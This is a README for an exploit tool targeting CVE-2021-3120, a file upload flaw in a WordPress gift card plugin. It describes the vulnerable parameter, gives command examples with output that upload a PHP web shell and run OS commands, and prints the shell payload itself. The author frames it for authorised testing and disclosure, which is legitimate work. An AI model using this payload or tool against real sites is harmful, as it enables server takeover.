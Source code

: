 # yith-giftdrop
A tool for checking as well as exploiting CVE-2021-3120, Arbitrary File Upload vulnerability in YITH WooCommerce Gift Cards Premium version 3.3.0 and below.

## A Word of Warning
Please do not run this tool against systems that you do not have permissions to test. Doing so is illegal and you could face prosecution despite your best intentions. If you are an IT/cyber security enthusiast and you are curious about how this tool works, I recommend that you setup your own lab environment for testing this tool out. 

## Vulnerability Description
A critical vulnerability (CVSSv3 9.8) exists in the WordPress plugin "YITH WooCommerce Gift Cards Premium" version 3.3.0 and below, which allows an attacker to upload arbitary files to the server and therefore achieve remote code execution on the server operating system in the security context of the web server. 

The plugin allows gift card products to be added to the site (powered by the WordPress WooCommerce plugin) and offers an optional feature that let customers purchase gift cards with custom designs by upload a picture of their choice when placing the gift card product in the cart. The file is submitted via the "ywgc-upload-picture" file parameter of the POST request however the server does not perform any sanity checks before processing the request, and stores the file in a predictable location on the server, with the client-specified file name as well as file extension. Code execution can be easily achieved by uploading a PHP file with .php extension and then requesting the file at the uploaded location.

It is also worth noting that the vulnerability is exploitable regardless of whether the custom gift card design feature is enabled or not. The only condition required to exploit this vulnerability is the ability to add a gift card to the shopping cart. 

## Vulnerability Details
| ---  | ---  |
| Vulnerability Name | Arbitrary File Upload Leading to Remote Code Execution |
| CVE | CVE-2021-3120 |
| CVSS Vector | CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H |
| CVSS Score | 9.8 (Critical) |
| Vendor | YITH |
| Product Affected | YITH WooCommerce Gift Cards Premium |
| Product Page | https://yithemes.com/themes/plugins/yith-woocommerce-gift-cards/ |
| Versions Affected | Version 3.3.0 and below | 
| Fixed Version | v3.3.1 |

Version 3.1.5 and version 3.3.0 were used for testing and were found to be vulnerable. Lab environment was running WordPress 5.6 and WooCommerce 4.8.0.

## About This Tool

This tool is written to automate the discovery of WordPress sites that may be affected by this issue. It does so by performing a version enumeration using information contained in the readme.txt file which is included with the plugin by default.

In addition, it has a capability to perform a proof of concept test by uploading a simple php script with a randomly generated name. The script contains a simple echo command, which when requested is used to confirm code execution. As the uploaded file will remain on the server, the randomly generated file name will help reduce the chance of the file being requested by others and also the script would not cause any harm to the server.

The tool can also be used to exploit this vulnerability. The default attack is to upload a simple PHP web shell. This can be used to execute further OS commands, including reverse shells. For more "interesting" scenarios you can specify a custom payload as well as custom file names to bypass further server-side restrictions.

## Installation

Simply clone the repository or download the yith-giftdrop.py file to run.

## Usage

To perform vulnerability test via version enumeration, specify the url of the gift card product (-u) and enumeration mode (-e). This is purely information gathering and does not attempt any file upload operations.
```
$ ./yith-giftdrop.py -u http://192.168.0.1:8000/product/gift-card/ -e
Info: Found plugin via readme.txt
Info: Found version 3.1.5 - VULNERABLE! Please upgrade to v3.3.1 or above.
```

To perform a proof of concept, use the -c option. This will leave a PHP file on the server so a warning will be displayed to inform you of this and the program will exit at this point. You will need to add the -a or --accept flag to confirm that you understood this and want to continue.
```
$ ./yith-giftdrop.py -u http://192.168.0.1:8000/product/gift-card/ -c -a
Info: Found plugin via readme.txt
Info: Found version 3.1.5 - VULNERABLE! Please upgrade to v3.3.1 or above.
Info: Preparing for upload...
Info: Uploaded file to: http://192.168.0.1:8000/wp-content/uploads/yith-gift-cards/2021/1/7eb0273842554d6e9db937be07faf270.php
Info: Received expected response at payload url. CODE EXECUTION confirmed!
```

By default the tool will attempt to upload a basic web shell. Again you will need to add the -a or accept flag to confirm you want to proceed.
```
$ ./yith-giftdrop.py -u http://192.168.0.1:8000/product/gift-card/ -a
Info: Found plugin via readme.txt
Info: Found version 3.1.5 - VULNERABLE! Please upgrade to v3.3.1 or above.
Info: Preparing for upload...
Info: Payload uploaded to: http://192.168.0.1:8000/wp-content/uploads/yith-gift-cards/2021/1/1ec442e859f44733b3e5271116e682ae.php
Info: Default payload (OS Command Execution) is used. Try below to obtain server hostname:
Info:     curl http://192.168.0.1:8000/wp-content/uploads/yith-gift-cards/2021/1/1ec442e859f44733b3e5271116e682ae.php?cmd=hostname
$ curl http://192.168.0.1:8000/wp-content/uploads/yith-gift-cards/2021/1/1ec442e859f44733b3e5271116e682ae.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
For other uses of the tool, including the use of a custom payload and file name, see the help screen.
```
$ ./yith-giftdrop.py -h
usage: yith-giftdrop.py [-h] [-e] [-c] -u URL [-p PAYLOAD] [-f FILE] [-n NAME] [-a]


__   _______ _____ _   _   _____ _  __ _    ______
\ \ / /_   _|_   _| | | | |  __ (_)/ _| |   |  _  \
 \ V /  | |   | | | |_| | | |  \/_| |_| |_  | | | |_ __ ___  _ __
  \ /   | |   | | |  _  | | | __| |  _| __| | | | | '__/ _ \| '_ \
  | |  _| |_  | | | | | | | |_\ \ | | | |_  | |/ /| | | (_) | |_) |
  \_/  \___/  \_/ \_| |_/  \____/_|_|  \__| |___/ |_|  \___/| .__/
                                                            | |
                                                            |_|
    A tool to check & exploit the arbitary file upload vulnerability
    in YITH WooCommerce Gift Cards Premium v3.3.0 and below

    CVE:        CVE-2021-3120
    Written by: Guy Liu
                guy.liu@air-sec.co.uk

optional arguments:
  -h, --help            show this help message and exit
  -e, --enum            Enum plugin version only
  -c, --check           Check for file upload and code execution only
  -u URL, --url URL     URL of Gift Card Product
  -p PAYLOAD, --payload PAYLOAD
                        Specify a payload to upload to server. Default is <?php echo shell_exec($_GET['cmd']);?>
  -f FILE, --file FILE  Specify a custom file to upload. Cannot be used with --payload/-p option
  -n NAME, --name NAME  Use specified file name rather than automatically generated file name
  -a, --accept          I understand that this program will leave payload files on the server

```

Enjoy!




















